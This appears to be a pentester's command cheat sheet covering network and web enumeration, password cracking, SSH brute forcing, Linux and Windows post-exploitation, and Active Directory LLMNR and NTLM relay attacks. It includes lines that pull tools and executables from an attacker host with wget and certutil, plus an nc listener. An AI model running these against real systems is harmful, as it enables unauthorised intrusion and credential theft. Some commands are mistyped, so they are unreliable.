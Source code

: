 ## Enumeration  

ip a  

arp-scan -l

showmount -e [server ip]

mount -t nfs [server ip]:[remote path shown from showmount] [to local mount point]

nmap -sV -A -T4 -p- 

nmap -sV -A -T4 --top-ports 500 [target]

nmap --sC ? 

nmap -p- --script vuln [target]

nmap --top-ports 500 --script vuln [target]

gobuster dir -u http://[IPaddress] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error -v | grep "Status: 200"

gobuster dir -u http://[IPaddress] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error

python -V 

## Web Enumeration

Curl -I http://[target]

nikto -h http://[IPaddress:8080]

## DNS enumeration (workflow)

dig -x [IP]

nslookup [IP]

dnsrecon -r [IP range/24]

dnsrecon -r [target IP range/24 it belongs to] -n [targetIP]

## Cracking
Zip files: fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt [target.zip]

NTLM# hash: hashcat -m 5600 file.txt /usr/share/wordlists/rockyou.txt --force

    ntlm# will dictate the specific module -m required to be set for the cracking.  
    in virtual machine intances --force may be required.  

hash-identifier

## Brute forcing
Hydra

nmap -p 22 --script ssh-brute --script-args="userdb=/path/to/username_wordlist.txt,passdb=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt" 192.168.64.137


## Linux Post Exploitation
history

pwd

sudo -l

crontab -l

**Linux wget and curl commands**

wget http://192.168.64.137:8000/linpeas.sh -O linpeas.sh

🔼 Upgrading to an interactive shell using python  
python -c 'import pty; pty.spawn("/bin/bash")'

## Windows Post Exploitation
cd

whoami

ipconfig

dir

sc stop [application]

sc start [application]

sc query [application]

certutil.exe -urlcache -f http://[attackerip]:8000/[application.exe] [applicationname.exe]

## Listener
nc -nlvp [port]

## Directory hosting
python -m SimpleHTTPServer

## Active Directory Attacks  

(Captures) LLMNR attacks  
sudo responder -I eth0 -dwv

(Relays) SMB attack  
sudo responder -I eth0 -dPv

(Relay authentication into targets | -i interacive shell | -c command execution)  
Impacket-ntlmrelax -tf targets.txt -smb2support -i 

**Identify hosts without SMB signing:** nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24 -Pn  
In the event initial scanning of a known target presents no results adding -Pn will still scan the target and provide information regardless. 






